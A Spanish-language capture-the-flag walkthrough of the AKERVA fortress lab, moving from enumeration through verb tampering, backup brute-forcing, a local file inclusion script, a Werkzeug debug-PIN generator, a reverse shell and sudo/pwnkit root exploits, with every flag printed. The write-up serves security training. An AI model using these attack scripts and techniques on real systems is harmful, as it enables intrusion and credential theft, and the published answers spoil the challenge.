### Plain Sight


Iniciamos la máquina escaneando los puertos de la máquina con `nmap` donde encontramos 3 puertos abiertos entre ellos `ssh`, y 2 servicios `http`

```
❯ nmap 10.13.37.11
Nmap scan report for 10.13.37.11  
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp
```

  

Abrimos el servicio `http` en el navegador y vemos una página bastante simple


Mirando el `código fuente` podemos ver la primera `flag` dentro de un `comentario`


Podemos verlo desde consola lanzando un `curl` y grepeando por la cadena `AKERVA`

```
❯ curl -s 10.13.37.11 | grep AKERVA
<!-- By the way, the first flag is: AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts} -->  
```

### Take a Look Around
 

Como escaneo alternativo con `nmap` podemos buscar puertos abiertos por `UDP`, como tiende a ser bastante `lento` solo escanearemos los `100` más comunes

```
❯ sudo nmap -T5 -sU --top-ports 100 --open 10.13.37.11  
Nmap scan report for 10.13.37.11
PORT    STATE SERVICE
161/udp open  snmp
```

  

Tenemos `snmp` abierto, usaremos `snmpbulkwalk` usando `public` como contraseña indicando la versión `2c`, sabemos que las flags inician por `AKERVA` asi que podemos grepear por esa cadena, debido a una mala configuracion vemos lekeada la `flag`

```
❯ snmpbulkwalk -c public -v2c 10.13.37.11 | grep AKERVA
iso.3.6.1.2.1.25.4.2.1.5.1254 = STRING: "/var/www/html/scripts/backup_every_17minutes.sh AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}"  
```

### Dead Poets


Además de la flag podemos ver una `ruta` de un script de bash lekeada, suponiendo que la web esta montada en `/var/www/html` podemos cambiar esa parte por la `ip`

```
/var/www/html/scripts/backup_every_17minutes.sh  

10.13.37.11/scripts/backup_every_17minutes.sh
```

  

Al hacer clic a esa ruta nos devuelve `Unauthorized`, necesitamos credenciales

```
❯ curl -s 10.13.37.11/scripts/backup_every_17minutes.sh        
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>  
</body></html>
```

  

Sin embargo solo al cambiar el metodo de la petición de `GET` a `POST` podemos ver el contenido del script y en un comentario podemos encontrarnos con la `flag`

```
❯ curl -s -X POST 10.13.37.11/scripts/backup_every_17minutes.sh
#!/bin/bash
#
# This script performs backups of production and development websites.  
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#

SAVE_DIR=/var/www/html/backups

while true
do
	ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
	echo "Erasing old backups..."
	rm -rf $SAVE_DIR/*

	echo "Backuping..."
	zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

	echo "Done..."
	sleep 1020
done
```

  

  

### Now You See Me
  

Analizemos el script, iniciamos sabiendo que hay un directorio `/backups` en la web

```
/var/www/html/backups  

10.13.37.11/backups
```

  

Como nombre de archivo setea `backup_` y el output de un comando con `date`

```
ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)  
```

  

Después de borrar lo que hay crea un `zip` en `/backups` con todo lo que hay en `/var/www/html` y lo guarda con el nombre de archivo definido antes

```
zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*  
```

  

Despues haceun `sleep` de `1020` segundos que es equivalente a `17` minutos, lo que quiere decir que el nombre del archivo `zip` se actualizará cada 17 minutos

```
sleep 1020  
```

  

La `hora` del servidor podemos verla con un simple `curl` viendo la cabecera `Date`

```
❯ curl -s 10.13.37.11 -I | grep Date  
Date: Mon, 10 Apr 2023 18:50:45 GMT
```

  

Podemos tener una idea del output del comando `date` basandonos en la hora

```
%Y = 2023  
%m = 04
%d = 10
%H = 18
%M = 50
%S = 45
```

  

Tenemos casi la `ruta` completa del archivo sin embargo hay un rango de `17` minutos por lo que tenemos que fuzzear `%M` y `%S` (minutos y segundos)

```
http://10.13.37.11/backups/backup_2023041018FUZZ.zip  
```

  

Aplicamos fuerza bruta con `wfuzz` para descubrir los `4` digitos y los encontramos

```
❯ wfuzz -c -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://10.13.37.11/backups/backup_2023041018FUZZ.zip -t 100 --hc 404  
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.13.37.11/backups/backup_2023041018FUZZ.zip
Total requests: 10000

=======================================================================
ID           Response   Lines     Word       Chars         Payload
=======================================================================

000005208:   200        82458 L   808129 W   20937179 Ch   "5207"
```

  

Cambiamos el `FUZZ` por los `4` digitos y descargamos el archivo `zip` con `wget`

```
❯ wget http://10.13.37.11/backups/backup_20230410185207.zip
--2023-04-10 14:42:09--  http://10.13.37.11/backups/backup_20230410185207.zip
Conectando con 10.13.37.11:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 22071775 (21M) [application/zip]
Grabando a: «backup_20230410185207.zip»

backup_20230410185207.zip                     100%[==============================================================================================>]  21,05M  2,40MB/s  

2023-04-10 14:42:19 (2,33 MB/s) - «backup_20230410185207.zip» guardado [22071775/22071775]
```

  

Lo unzipeamos y nos queda un directorio `var` con mas directorios y archivos dentro

```
❯ unzip backup_20230410185207.zip

❯ ls   
 var   backup_20230410185207.zip  
```

  

Enumerando un poco vemos con los archivos de configuración que esta montado un `wordpress` también encontramos una carpeta con el nombre `dev`

```
var/www/html ❯ ls -l  
dr-xr-xrwx kali kali 4.0 KB Mon Apr 10 14:52:07 2023  backups
dr-xr-xr-x kali kali 4.0 KB Sat Feb  8 12:32:44 2020  dev
drwxr-xr-x kali kali 4.0 KB Sat Feb  8 11:04:14 2020  scripts
drwxr-xr-x kali kali 4.0 KB Sat Feb  8 08:15:15 2020  wp-admin
drwxr-xr-x kali kali 4.0 KB Mon Feb 10 11:18:15 2020  wp-content
drwxr-xr-x kali kali  12 KB Sat Feb  8 08:15:15 2020  wp-includes
.rw-r--r-- kali kali 405 B  Sat Feb  8 09:07:32 2020  index.php
.rw-r--r-- kali kali  20 KB Mon Feb 10 10:56:53 2020  license.txt
.rw-r--r-- kali kali 7.1 KB Mon Feb 10 10:56:53 2020  readme.html
.rw-r--r-- kali kali 6.8 KB Sat Feb  8 08:15:15 2020  wp-activate.php
.rw-r--r-- kali kali 351 B  Sat Feb  8 08:15:15 2020  wp-blog-header.php
.rw-r--r-- kali kali 2.2 KB Sat Feb  8 08:15:15 2020  wp-comments-post.php
.rw-r--r-- kali kali 2.8 KB Sat Feb  8 08:15:15 2020  wp-config-sample.php  
.rw-rw-rw- kali kali 3.2 KB Mon Feb 10 12:14:51 2020  wp-config.php
.rw-r--r-- kali kali 3.8 KB Sat Feb  8 08:15:15 2020  wp-cron.php
.rw-r--r-- kali kali 2.4 KB Sat Feb  8 08:15:15 2020  wp-links-opml.php
.rw-r--r-- kali kali 3.2 KB Sat Feb  8 08:15:15 2020  wp-load.php
.rw-r--r-- kali kali  47 KB Mon Feb 10 10:56:53 2020  wp-login.php
.rw-r--r-- kali kali 8.3 KB Sat Feb  8 08:15:15 2020  wp-mail.php
.rw-r--r-- kali kali  18 KB Sat Feb  8 08:15:15 2020  wp-settings.php
.rw-r--r-- kali kali  30 KB Sat Feb  8 08:15:15 2020  wp-signup.php
.rw-r--r-- kali kali 4.6 KB Sat Feb  8 08:15:15 2020  wp-trackback.php
.rw-r--r-- kali kali 3.1 KB Sat Feb  8 08:15:15 2020  xmlrpc.php
```

  

Dentro de dev encontramos solo un archivo que es un script llamado `space_dev.py`

```
var/www/html/dev ❯ ls  
 space_dev.py
```

  

En el script de python podemos encontrar la `flag` entre otras cosas

```
#!/usr/bin/python

from flask import Flask, request
from flask_httpauth import HTTPBasicAuth
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
auth = HTTPBasicAuth()

users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")  
        }

@auth.verify_password
def verify_password(username, password):
    if username in users:
        return check_password_hash(users.get(username), password)
    return False

@app.route('/')
@auth.login_required
def hello_world():
    return 'Hello, World!'

# TODO
@app.route('/download')
@auth.login_required
def download():
    return downloaded_file

@app.route("/file")
@auth.login_required
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'

if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)
```

### Open Book


Si miramos el final del script este monta un servidor `http` por el puerto `5000`

```
app.run(host='0.0.0.0', port='5000', debug = True)  
```

  

El puerto esta abierto asi que el servicio del script esta corriendo, sin embargo vemos que no tenemos acceso ya que nos pide `credenciales` para ver el contenido



En el codigo podemos ver la función `verify_password` que llama a la variable `users`, la cual tiene como credenciales el usuario `aas` y la contraseña es `flag`

```
users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")  
        }

@auth.verify_password
def verify_password(username, password):
    if username in users:
        return check_password_hash(users.get(username), password)
    return False
```

  

Significa que podemos iniciar sesión como `aas` usando la `flag` como contraseña



Al autenticarnos solo podemos ver un `Hello, World!` que si leemos el codigo es lo que esta definido en el `script` que se muestre cuando se apunte a la ruta `/`



```
@app.route('/')
@auth.login_required
def hello_world():
    return 'Hello, World!'  
```

  

Cuando apuntamos a la ruta `/file` espera un argumento en el parametro `filename` el cual tiene que ser `archivo` existente que leera y lo mostrara como `respuesta`

```
@app.route("/file")
@auth.login_required
def file():
    filename = request.args.get('filename')  
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

  

Significa que si apuntamos con algo como `/file?filename=/etc/passwd` deberiamos poder leer el contenido del `/etc/passwd`, tenemos un `Local File Inclusion`



Podemos automatizar esto en un `script` de python donde definimos la `ruta`, las `credenciales` y el parametro `filename` pasandole el primer `argumento` como valor

```
#!/usr/bin/python3
from pwn import log
import requests, sys

if len(sys.argv) < 2:
    log.failure(f"Uso: python3 {sys.argv[0]} <file>")
    sys.exit(1)

target = "http://10.13.37.11:5000/file"
params = {"filename": sys.argv[1]}
auth = ("aas", "AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")

request = requests.get(target, auth=auth, params=params)  

print(request.text.strip())
```

  

Podemos ejecutarlo pasandole un `archivo` como `argumento` y nos lo muestra

```
❯ python3 exploit.py /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash  
```

  

Podemos ver el `home` del usuario `aas`, daremos por hecho que la flag que llama `flag.txt` como en otros fortress, podemos leerla en su directorio home

```
❯ python3 exploit.py /home/aas/flag.txt  
AKERVA{IKNOW#LFi_@_}
```

### Say Friend and Enter


Fuzzeando directorios en el puerto 5000 con `wfuzz` encontramos un `/console`

```
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.13.37.11:5000/FUZZ -t 100 --hc 404  
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.13.37.11:5000/FUZZ
Total requests: 4713

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000001222:   200        52 L     186 W      1985 Ch     "console" 
000001535:   401        0 L      2 W        19 Ch       "download"
000001784:   401        0 L      2 W        19 Ch       "file"
```

  

Lo miramos desde el navegador y es una consola de `Werkzeug`, necesitamos un `pin`



Buscando en [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) encontramos un script para generar el `pin`, sin embargo tenemos que cambiar algunas cosas iniciando por el `username` que sabemos es `aas`

```
'aas', # username  
```

  

También la `version` de python, con `curl` podemos ver que esta corriendo `python2`

```
❯ curl -s 10.13.37.11:5000/console -I | grep Server  
Server: Werkzeug/0.16.0 Python/2.7.15+
```

  

```
'/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),  
```

  

Seguimos con el código que se nos indica como conseguir del archivo `address`, podemos aprovecharnos del `lfi` para conseguirlo y lo computamos con `python3`

```
❯ python3 exploit.py /sys/class/net/ens33/address 
00:50:56:b9:da:06

❯ python3 -q
>>> 0x005056b9da06
345052404230
>>>
```

  

```
'345052404230', # str(uuid.getnode()),  /sys/class/net/ens33/address  
```

  

Finalmente la linea del `/etc/machine-id` que solo pegamos tal cual como está

```
❯ python3 exploit.py /etc/machine-id  
258f132cd7e647caaf5510e3aca997c1
```

  

```
'258f132cd7e647caaf5510e3aca997c1' # get_machine_id(), /etc/machine-id  
```

  

Nuestro `exploit` final quedaria de la siguiente manera, tener en cuenta que hay que cambiar las ultimnas `2` variables cada que se reinicie nuevamente la maquina

```
import hashlib
from itertools import chain
probably_public_bits = [
    'aas', # username
    'flask.app', # modname
    'Flask', # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),  
]

private_bits = [
    '345052404230', # str(uuid.getnode()),  /sys/class/net/ens33/address
    '258f132cd7e647caaf5510e3aca997c1' # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

  

Al ejecutarlo conseguimos computar el `pin` para desbloquear el `/console`

```
❯ python3 pin.py  
249-759-504
```

  

Enviamos el `pin` que conseguimos con el script, al hacerlo desbloqueamos la consola de `werkzeug` donde podemos ejecutar comandos en `python`



Importamos la libreria `os` e intentamos ejecutar el comando `whoami` con `system`, sin embargo no nos devuelve el output si no el codigo de estado que es `0`



Podemos jugar con `popen` para ejecutar el comando y `read` para leer el output



Con `strip` quitamos el salto de linea, lo metemos dentro de `print` para verlo mejor



Con `ls -la` vemos un archivo oculto llamado `.hiddenflag,txt` asi que la leemos



Aunque para estar mas comodo con `system` nos enviamos una revshell de `bash`



Recibimos la shell como `aas` y podemos leer nuevamente la `flag` que vimos antes

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.11
aas@Leakage:~$ id   
uid=1000(aas) gid=1000(aas) groups=1000(aas),24(cdrom),30(dip),46(plugdev)  
aas@Leakage:~$ hostname -I
10.13.37.11 
aas@Leakage:~$ cat .hiddenflag.txt
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
aas@Leakage:~$
```

### Super Mushroom


Si miramos la versión de `sudo` encontramos que esta corriendo una version `antigua`

```
aas@Leakage:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2  
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
aas@Leakage:~$
```

  

Para esa versión especifica de sudo encontramos un exploit con el [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) al ejecutarlo simplemente nos convertimos directamente en el usuario `root`

```
aas@Leakage:/tmp$ python3 exploit_nss.py  
# whoami
root
# hostname -I
10.13.37.11 
#
```

  

Aunque hay otra forma si buscamos archivos con privilegios `suid` vemos el `pkexec`

```
aas@Leakage:~$ find / -perm -4000 2>/dev/null | grep -v snap  
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su
aas@Leakage:~$ ls -l /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
aas@Leakage:~$
```

  

Es vulnerable a `pwnkit` ejecutamos un exploit del [CVE-2021-4034](https://xchg2pwn.github.io/fortresses/akerva/) y somos `root`

```
aas@Leakage:/tmp$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.  
[+] Calling execve()
# whoami
root
# hostname -I
10.13.37.11
#
```

  

Nos spawneamos una bash y en el directorio `/root` encontramos la `flag.txt`

```
root@Leakage:~# cat /root/flag.txt  
AKERVA{IkNow_Sud0_sUckS!}
root@Leakage:~#
```

### Little Secret


Además de la flag podemos encontrar un archivo con el nombre `secured_note.md`

```
root@Leakage:~# ls
flag.txt  secured_note.md  
root@Leakage:~#
```

  

Las primeras `3` lineas parecen ser de un mensaje en `base64`, lo decodeeamos

```
root@Leakage:~# cat secured_note.md
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK

@AKERVA_FR | @lydericlefebvre
root@Leakage:~# head -n3 secured_note.md | base64 -d
GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE  
root@Leakage:~#
```

  

Esta usando cifrado `Vigenère` asi que podemos usar [dcode.fr](https://www.dcode.fr/vigenere-cipher) para decodear el mensaje, sabemos que la flag inicia por `AKERVA` asi que usamos `plaintext`, tambien quitamos `B,J,Q,X,Z` ya que no estan en el mensaje asi que nos quedaria `ACDEFGHIKLMNOPRSTUVWY`, el darle a `decrypt` conseguimos un mensaje



Podemos arreglar un poco la `cadena` para obtener un mensaje legible, recibimos una felicitación por completarlo y tambien se nos indica la forma de la `flag`

```
WELLDONEFORSOLVINGTHISCHALLENGEYOUCANSENDYOURRESUMEHEREATRECRUTEMENTAKERVACOMANDVALIDATETHELASTFLAGWITHAKERVAIKNOOOWVIGEEENERRRE

Well done for solving this challenge! You can send resume here at recrutement@akerva.com and validate the last flag with AKERVA IKNOOOWVIGEEENERRRE  

AKERVA{IKNOOOWVIGEEENERRRE}
```